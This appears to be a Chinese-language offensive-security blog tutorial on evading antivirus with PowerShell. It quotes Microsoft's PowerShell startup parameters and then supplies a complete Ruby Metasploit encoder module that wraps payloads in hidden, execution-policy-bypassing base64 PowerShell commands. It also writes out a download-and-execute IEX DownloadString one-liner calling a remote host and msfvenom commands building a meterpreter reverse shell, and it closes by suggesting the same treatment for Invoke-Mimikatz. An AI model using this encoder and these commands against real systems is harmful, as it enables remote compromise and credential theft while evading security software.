 专注APT攻击与防御
https://micropoor.blogspot.com/

**知识点介绍：**

Windows PowerShell是以.NET Framework技术为基础，并且与现有的WSH保持向后兼容，因此它的脚本程序不仅能访问.NET CLR，也能使用现有的COM技术。同时也包含了数种系统管理工具、简易且一致的语法，提升管理者处理，常见如登录数据库、WMI。Exchange Server 2007以及System Center Operations Manager 2007等服务器软件都将内置Windows PowerShell。Windows PowerShell的强大，并且内置，在渗透过程中，也让渗透变得更加有趣。而安全软件的对抗查杀也逐渐开始针对powershell的一切行为。在https://technet.microsoft.com，看到文档如下：

>   Here is a listing of the available startup parameters:
-Command Specifies the command text to execute as though it were typed at the PowerShell command prompt.
-EncodedCommand Specifies the base64-encoded command text to execute.
-ExecutionPolicy Sets the default execution policy for the console session.
-File Sets the name of a script file to execute.
-InputFormat Sets the format for data sent to PowerShell as either text string or serialized XML. The default format is XML. Valid values are text and XML.
-NoExit Does not exit after running startup commands. This parameter is useful when you run PowerShell commands or scripts via the command prompt(cmd.exe).
-NoLogo Starts the PowerShell console without displaying the copyright banner.
-Noninteractive Starts the PowerShell console in non-interactive mode. In this mode, PowerShell does not present an interactive prompt to the user.
-NoProfile Tells the PowerShell console not to load the current user’s profile.
-OutputFormat Sets the format for output as either text string or serialized XML. The default format is text. Valid values are text and XML.
-PSConsoleFile Loads the specified Windows PowerShell console file. Console files end with the .psc1 extension and can be used to ensure that specific snap-in extensions are loaded and available. You can create a console file using Export-Console in Windows PowerShell.
-Sta Starts PowerShell in single-threaded mode.
-Version Sets the version of Windows PowerShell to use for compatibility,such as 1.0.
-WindowStyle Sets the window style as Normal, Minimized, Maximized, or Hidden. The default is Normal.

针对它的特性，本地测试：
> Add-Type -AssemblyName PresentationFramework;
>[System.Windows.MessageBox]::Show('Micropoor')

![](media/faf8154c646ab4aa837ebb8d5d99ae78.jpg)

![](media/e1f2fb4edc10e83ae5f2c2f51d6ead38.jpg)

上文所说，越来越多的杀软开始对抗，powershell的部分行为，或者特征。以msfvenom为例，生成payload。
![](media/7eec22528d589cc79d6af609182206e7.jpg)

micropoor.ps1不幸被杀。
![](media/90aeb138701d59ba01c5497d2c9d978e.jpg)

针对powershell特性，更改payload
![](media/12ee496efb54f3670b111d3be3cde056.jpg)

![](media/55da22835d354321eba9b36ebf36128d.jpg)

接下来考虑的事情是如何把以上重复的工作变成自动化，并且针对powershell，DownloadString特性，设计出2种payload形式：
（1）目标机出网
（2）目标机不出网

并且根据需求，无缝连接Metasploit。

根据微软文档，可以找到可能对以上有帮助的属性，分别为：
* Window
* Style 
* NoExit EncodedCommand 
* exec

自动化实现如下：
```ruby
# copy base64.rb to metasploit-framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.
# E.g
# msf encoder(powershell/base64) > use exploit/multi/handler
# msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
# payload => windows/x64/meterpreter/reverse_tcp
# msf exploit(multi/handler) > exploit
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
# [*] Started reverse TCP handler on xx.1xx.xx.xx:xx

class MetasploitModule < Msf::Encoder
    Rank = NormalRanking

def initialize
    super(
    'Name' => 'Powershell Base64 Encoder',
    'Description' => %q{
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx
-f psh-reflection --arch x64 --platform windows | msfvenom -e
powershell/base64 --arch x64 --platform windows.
    },
    'Author' => 'Micropoor',
    'Arch' => ARCH_CMD,
    'Platform' => 'win')

register_options([
OptBool.new('payload', [ false, 'Use payload ', false ]), 
OptBool.new('x64',[ false, 'Use syswow64 powershell', false ])
])

end

def encode_block(state, buf)
base64 = Rex::Text.encode_base64(Rex::Text.to_unicode(buf)) 
cmd = ''
if datastore['x64']
    cmd += 'c:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe '
else
    cmd += 'powershell.exe ' 
end
if datastore['payload']
    cmd += '-windowstyle hidden -exec bypass -NoExit ' 
end
cmd += "-EncodedCommand \#{base64}" 
end
end

# if use caidao
# execute echo powershell -windowstyle hidden -exec bypass -c \""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.117/xxx.ps1');\""|msfvenom -e x64/xor4 --arch x64 --platform windows
# xxx.ps1 is msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
```

`copy powershell_base64.rb to metasploit‐framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.`

参数 payload 选择是否使用Metasploit payload，来去掉powershell的关键字。

例1（目标出网，下载执行）：

`echo powershell ‐windowstyle hidden ‐exec bypass ‐c \""IEX (New‐ObjectNet.WebClient).DownloadString('http://192.168.1.117/micropoor.ps1');\""|msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows`

![](media/837e8a66210018c4e7891f7cc44ae8dc.jpg)
![](media/3101ba162d3677409f14f2e6f58a5d2d.jpg)


例2（目标不出网，本地执行）
![](media/274ee525bf8c174b256047a449e2165c.jpg)

**注：加payload参数**

`msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.117 LPORT=8080 ‐f psh‐reflection ‐‐arch x64 ‐‐platform windows | msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows payload`

更多有趣的实验：

把例1的down内容更改为例2，并且去掉payload参数。来减小payload大小。

更改Invoke-Mimikatz.ps1等。

![](media/1668ff8230cc690822b002a58bed23b7.jpg)

>   Micropoor
